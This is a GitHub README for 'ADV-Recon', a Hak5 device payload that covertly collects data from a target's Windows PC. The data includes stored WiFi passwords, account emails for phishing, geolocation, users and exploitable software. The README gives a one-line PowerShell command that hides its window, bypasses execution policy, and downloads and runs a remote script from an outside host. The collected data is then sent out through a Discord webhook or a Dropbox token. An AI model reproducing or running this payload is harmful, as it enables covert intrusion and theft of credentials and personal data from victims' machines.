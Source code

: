 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ADV-Recon

A script used to do an advanced level of Recon on the targets computer.

Version 2 no longer requires you to host your own version of the script. 

Modifying the execution script is the only necessary interaction.

## Description

This program enumerates a target PC to collect as much recon data as possible for future engagements. This includes:

* Hosts Powershell Version (to know what commands can be run)
* Name Associated with their Microsoft Account (Or ENV UserName variable if one is not detected)
* Whether they are in the Admin group or not
* The email associated with their Microsoft Account (for phishing possibilities)
* Other User accounts on their system (for possible privledge escalation)
* Details on their login settings (Ex: Min/Max password age and length)
* How many days since they have changed their password (Max password age - Days since = Opportunity)
* Their GeoLocation (know their approximate where abouts)
* Nearby Wifi Networks (Possible lateral movement)
* Network Info (Local and Public IP Address; MAC Address; RDP Enabled?)
* WLAN Profiles (List of SSIDs and Passwords stored on their PC)
* Network Interfaces (What are they connecting in and out with)
* System Information (Manufacturer, Model, Serial Number, OS, CPU, RAM, Mainboard BIOS)
* Local Users (Accounts on system with Username, name associated with microsoft account and SID)
* Information on their HardDrives (Indicator of Recon Scope)
* COM and Serial Devices (Is there a device connected you can manipulate?)
* Active TCP Connections (Poor mans Port Scanning)
* Processes, Services, Software, and Drivers (What is running on the computer we can exploit?)
* Video Card info (how much vroom vroom?)
* Tree Command (Gain a more accurate assessment of what to exfil or use in Phishing attacks)

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your discord webhook 

`$db` is the variable that stores your dropbox token 

Fill in either or both of these to methods to exfil your collected data

```
powershell -w h -NoP -Ep Bypass $dc='';$db='';iwr jakoby.lol/aucrjmf | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

* 0.2
    * Added additional data queries
    * Optimized output of data

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
